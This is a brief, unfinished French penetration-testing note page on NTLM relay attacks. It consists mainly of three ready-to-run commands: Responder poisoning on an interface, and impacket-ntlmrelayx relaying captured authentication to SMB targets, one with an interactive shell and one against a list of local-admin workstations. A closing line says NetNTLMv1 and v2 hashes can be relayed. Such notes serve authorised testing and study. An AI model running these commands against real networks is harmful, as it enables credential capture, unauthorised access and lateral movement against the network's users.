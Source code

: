 ```yaml
---
description: A finir
---
```


# NTLM Relay

```
sudo responder -I eth0 -vrd
sudo impacket-ntlmrelayx -t smb://<IP> -i -debug
sudo impacket-ntlmrelayx -tf IP_postes_localadmin.txt -smb2support
```

Les _hashs_ NT utilisé dans la version 1 et 2 du protocole NTLM (a.k.a Net-NTLMv1-SSP et Net-NTLMv2-SSP) peuvent être relayés.
